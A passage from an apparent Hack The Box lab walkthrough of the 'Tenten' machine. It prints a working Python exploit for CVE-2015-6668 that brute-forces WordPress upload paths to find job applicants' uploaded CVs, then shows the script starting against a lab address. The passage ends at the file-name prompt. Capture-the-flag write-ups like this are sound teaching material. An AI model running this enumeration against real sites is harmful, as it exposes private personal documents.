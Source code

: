 

I'll compare this to the actual database in [Beyond Root](#beyond-root).

#### Find Files

The next step in the exploit it to find the file associated with the
upload. The idea is that now that I know the name of the post (which for
this plugin is the name of the applicant), I can find the associated
resume uploads. The exploit site has a script to brute force looking for
file paths that are based on upload date.



    import requests

    print """  
    CVE-2015-6668  
    Title: CV filename disclosure on Job-Manager WP Plugin  
    Author: Evangelos Mourikis  
    Blog: https://vagmour.eu  
    Plugin URL: http://www.wp-jobmanager.com  
    Versions: <=0.7.25  
    """  
    website = raw_input('Enter a vulnerable website: ')  
    filename = raw_input('Enter a file name: ')

    filename2 = filename.replace(" ", "-")

    for year in range(2013,2018):  
        for i in range(1,13):
            for extension in {'doc','pdf','docx'}:
                URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
                req = requests.get(URL)
                if req.status_code==200:
                    print "[+] URL of CV found! " + URL



I changed the years to go through all of 2017, since that's when Tenten
retired.

Given that I have nothing else to work with, I'll look for the file name
`HackAccessGranted`:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $python brute.py 
      
    CVE-2015-6668  
    Title: CV filename disclosure on Job-Manager WP Plugin  
    Author: Evangelos Mourikis  
    Blog: https://vagmour.eu  
    Plugin URL: http://www.wp-jobmanager.com  
    Versions: <=0.7.25  

    Enter a vulnerable website: http://10.10.10.10/
    Enter a file name: HackerAccessGranted
